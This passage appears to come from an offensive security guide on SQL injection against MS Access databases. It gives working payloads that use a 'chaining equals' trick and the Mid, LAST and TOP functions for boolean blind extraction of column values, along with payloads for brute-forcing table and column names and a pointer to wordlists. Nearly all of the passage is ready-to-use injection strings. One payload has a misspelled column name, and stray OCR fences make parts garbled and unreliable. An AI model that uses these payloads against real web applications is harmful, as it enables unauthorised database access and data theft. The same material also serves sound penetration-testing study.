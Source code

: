 ```
> This will allow you to exfiltrate values of the current table without needing to know the name of the table.

**MS Access** allows **weird syntax** such as **`'1'=2='3'='asd'=false`**. As usually the SQL injection will be inside a **`WHERE`** clause we can abuse that.

Imagine you have a SQLi in a MS Access database and you know (or guessed) that one **column name is username**, and thats the field you want to **exfiltrate**. You could check the different responses of the web app when the chaining equals technique is used and potentially exfiltrate content with a **boolean injection** using the **`Mid`** function to get substrings.

```sql
'=(Mid(username,1,3)='adm')='
```
```
If you know the **name of the table** and **column** to dump you can use a combination between `Mid` , `LAST` and `TOP` to **leak all the info** via boolean SQLi:

```sql
'=(Mid((select last(useranme) from (select top 1 username from usernames)),1,3)='Alf')='
```
```
_Feel free to check this in the online playground._

### Brute-forcing Tables names

Using the chaining equals technique you can also **bruteforce table names** with something like:

```sql
'=(select+top+1+'lala'+from+<table_name>)='
```
```
You can also use a more traditional way:

```sql
-1' AND (SELECT TOP 1 <table_name>)%00
```
```
_Feel free to check this in the online playground._

- Sqlmap common table names: [[https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt|https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt]]
- There is another list in [[http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html|http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html]]

### Brute-Forcing Columns names

You can **brute-force current columns names** with the chaining equals trick with:

```sql
'=column_name='
```
```
Or with a **group by**:

```sql
-1' GROUP BY column_name%00
```
```
Or you can brute-force column names of a **different table** with:

```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```
```
```